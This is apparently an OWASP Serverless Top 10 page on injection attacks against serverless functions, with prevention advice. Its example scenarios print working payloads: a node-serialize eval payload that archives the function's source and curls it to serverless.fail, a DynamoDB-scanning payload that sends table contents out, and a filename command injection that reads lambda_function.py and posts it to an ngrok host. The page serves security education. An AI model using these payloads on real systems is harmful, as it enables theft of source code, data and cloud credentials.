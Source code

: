 # A1:2017 Injection

## Attack Vectors
Attack vectors for injections in traditional applications are usually referred to any location where the input to the application can be controlled or manipulated by the attacker. However, in serverless applications the attack surface increases.

Since serverless functions can also be triggered from different events sources like cloud storage events (S3, Blob and other cloud storage), Stream data processing (e.g. AWS Kinesis), databases changes (e.g. DynamoDB, CosmosDB), code modifications (e.g. AWS CodeCommit) notifications (e.g. SMS, Emails, IoT) and more, we should no longer consider input coming directly from the API calls as the sole attack surface. 

Moreover, we no longer have control of the line between the origin to the resource. If a function is triggered via email or a database, there is nowhere to put a Firewall or any other control that will validate the event.

## Security Weakness
The traditional SQL/NoSQL Injection will be the same. OS Command Injection might not target the files in the container (e.g. /etc/host), but source code and other secrets could be found in the container. Code injection will allow an attacker to use the provider’s API to scan and interact with other services in the account.

## Impact
The impact of a successful injection attack will lean on the permission the vulnerable function has. If the function has been assigned a role that grants it liberal access to a cloud storage, then injected code could delete data, upload corrupted data, etc. If the function has been granted access to a database table, it could delete records, insert records, etc. Roles that allow creating users and permissions can eventually lead into a cloud account takeover.

## How to Prevent
- Never trust, pass or make any assumptions regarding input and its validity from any resource
- Use a safe API, which avoids the use of the interpreter entirely or provides a parameterized interface, or migrate to use Object Relational Mapping Tools (ORMs)
- Use positive or “whitelist” input validation when possible
- Identify trusted sources and resources and whitelist them, if possible
- For any residual dynamic queries, escape special characters using the specific escape syntax for that interpreter
- Consider all event types and entry points into the system
- Run functions with the least privileges required to perform the task to reduce attack surface
- Use a commercial runtime defense solution to protect functions on execution time

## Example Attack Scenario I
The following function code, repeatedly found in the wild, deserializes data using the eval() function:
![injection-1](images/0x01-injection-1.png)

The untrusted input is sent from the trigger’s event to the unserialize function without any validation. By sending the following payload, attackers can steal the source code of the function, simply by creating a new child_proccess that will zip the source-code found in the current directory, wrapping it up with base64 and sending it to any server they have access to:
>
    _$$ND_FUNC$$_function(){require("child_process").exec("tar -pcvzf /tmp/source.tar.gz ./;
    b=`base64 --wrap=0 /tmp/source.tar.gz`; curl -X POST https://serverless.fail/ --data
    $b",function(){});}()

The attacker can now investigate the code and use it to create a more cloud-native attack. For example, using the provider’s API to read from the database:
>
    _$$ND_FUNC$$_function(){var s=require("aws-sdk");var h=require("https"); var d=new
    s.DynamoDB.DocumentClient;d.scan({TableName:process.env.DYNAMODB_TABLE},function(e,a)
    {if(e);else{var t=Buffer.from(JSON.stringify(a)).toString();;var
    h.get(“https://serverless.fail?encodeURI(t)”),function(e){})}});}()

## Example Attack Scenario II
A function is triggered from a storage file upload. The function then downloads the file and processes it.

![injection-2](images/0x01-injection-2.png)

However, the the function is vulnerable to command injection, in case a downloaded file does not end with the required file extension (i.e. ​ .jpg ​ ).

To exploit that, an attacker uses the application legitimately, but uploads two files. One of them contains a command injection syntax in its name:
>
    chip.gif c.jpg;cd ..; cd var;cd task;f=`head -50 lambda_function.py|base64 --wrap=0`;curl
    protego.ngrok.io?l="$f"
![injection-3](images/0x01-injection-3.png)

To exploit this vulnerability, the attacker needed to:

- Address an existing file (i.e. chip.gif, which he himself uploaded before)
- Exit the /tmp folder
- Enter the /var/task folder (Use of '/' in the object name is not allowed)
- Read the first 50 lines of lambda_function.py and with it the hardcoded keys to the management AWS account
- Wrap the code in base64
- Send it to a destination held by the attacker

As a result of the Lambda execution, a request is sent to the attacker, containing the function’s code:
![injection-4](images/0x01-injection-4.png)
![injection-5](images/0x01-injection-5.png)